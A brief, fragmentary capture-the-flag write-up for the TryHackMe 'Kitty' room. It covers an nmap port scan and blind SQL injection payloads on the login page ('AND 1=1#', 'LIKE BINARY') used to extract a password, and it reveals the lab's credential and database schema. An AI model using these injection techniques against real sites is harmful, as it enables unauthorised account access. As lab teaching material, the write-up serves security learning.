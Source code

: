 # #1 introduction
<img width="647" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/0b9b87b9-98fb-4b13-ae10-fbfac330dd87">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx kitty.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- kitty.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)
kitty' AND 1=1#

kitty' AND password LIKE BINARY '%'

we add the binary cause LIKE is case insensitive
we will use kitty and password to connect to SSH

-> L0ng_Liv3_KittY

dbname : mywebsite

table: siteusers
fields: id,username,password,created_at


cat /etc/apache2/sites-enabled/dev_site.conf
